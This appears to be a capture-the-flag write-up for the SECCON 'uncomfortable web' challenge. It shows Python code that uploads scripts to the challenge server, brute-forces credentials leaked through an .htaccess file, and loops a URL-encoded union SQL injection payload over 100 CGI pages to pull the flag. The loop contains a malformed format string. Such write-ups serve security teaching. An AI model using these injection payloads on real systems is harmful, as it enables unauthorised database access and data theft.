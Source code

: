 # uncomfortable web (web, 300, 78 solves)

> Attack to http://127.0.0.1:81/authed/ through the uploaded script at http://uncomfortableweb.pwn.seccon.jp/.

> Get the flag in the database!

We start off by making a quick script to quickly send our python scripts:

``` python
h = HTMLParser()

url = "http://uncomfortableweb.pwn.seccon.jp/?"
files = {'file': open('uncom.py', 'rb')}

r = requests.post(url=url, files=files)
print(h.unescape(r.text[290:-436]))
```

After a quick traversal, we notice two interesting things:

* `127.0.0.1:81/select.cgi`
* `127.0.0.1:81/authed/sqlinj/`



First link allows us to get the .htaccess file from `authed` directory, which we can brute and get the login/pass.

As for the second link, the directory's name strongly suggest a sql injection, there are 100 cgi files insides, so we can guess, that only one/few of them actually have sqli in them. 


Let's try to inject `' or '1'='1` into every page: 

``` python
conn = httplib.HTTPConnection('127.0.0.1', 81)
headers = {}
headers["Authorization"] = "Basic {0}".format(base64.b64encode("{0}:{1}".format('keigo', 'test')))

for i in range(100):
	conn.request("GET", "/authed/sqlinj/{}}.cgi?no=".format(str(i))+urllib.quote_plus("4a' or '1'='1' union SELECT *, null, null FROM f1ags /*"), None, headers)
	res = conn.getresponse()
	print(res.read().decode("utf-8"))
	
conn.close()
```

The important thing here, is that we urlencode the payload, it wouldn't work otherwise.
In return we get:

```
.
.
.
70 link
71 link
72 link
ISBN-10: 4822267865
ISBN-13: 978-4822267865
PUBLISH: 2015/2/20
ISBN-10: 4822267911
ISBN-13: 978-4822267919
PUBLISH: 2015/8/27

ISBN-10: 4822267938
ISBN-13: 978-4822267933
PUBLISH: 2016/2/19

ISBN-10: 4822237842
ISBN-13: 978-4822237844
PUBLISH: 2016/8/25

73 link
.
.
.
```

Success!

The db turns out to be sqlite, after some fiddling with the `sqlite_master` table, we finally arrive with the final exploit: `SECCON{I want to eventually make a CGC web edition... someday...}`



